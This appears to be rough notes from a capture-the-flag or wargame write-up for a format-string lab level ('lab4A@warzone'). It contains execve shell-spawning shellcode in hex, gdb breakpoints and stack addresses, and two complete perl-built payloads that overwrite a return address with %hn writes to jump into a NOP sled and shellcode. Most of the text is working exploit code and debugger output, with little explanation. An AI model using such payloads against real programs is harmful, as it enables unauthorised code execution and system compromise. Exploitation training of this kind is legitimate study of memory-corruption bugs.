 We get the following result:
- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80`


Now, we have two choices, either we put the shellcode before the address rewrite (which means we will need to modify our argument selector) or after (which means we need to modify the buffer address).

Let's build a quick proof of concept to guestimate where our shellcode would be in memory.


[return address of main() on the stack][magic sauce to rewrite the ret_address][NOP + Shellcode]

## Solution

b *log_wrapper+134
b *main+166

r < <(python -c "print 'AAAA'")

exploit = "AAAA"

fd = open("/tmp/exploit2", 'w')
fd.write(exploit)
fd.close()

"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

RA = 0xbffff5bc
0xbffff520
z = 132
0xbfff - size
0xf520 - 0xbfff - size - 6



run $(perl -e 'print "A" . "\xbc\xf5\xff\xbf" . "\xbe\xf5\xff\xbf" . "\x90"x100 . "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" . "%62622x" .  "%14\$hn" . "%51935x" . "%15\$hn"')





0xbffff688
lab4A@warzone:/levels/lab04$ gdb /tmp/find
Reading symbols from /tmp/find...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /tmp/find 
0xbffff6e8

run $(perl -e 'print "A" . "\xac\xf6\xff\xbf" . "\xae\xf6\xff\xbf" . "\x90"x100 . "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" . "%63678x" .  "%14\$hn" . "%50879x" . "%15\$hn"')

   0x08048a86 <+166>:	call   0x80488fd <log_wrapper>

0xbffff6ac:	0x08048a8b

0xbffff940
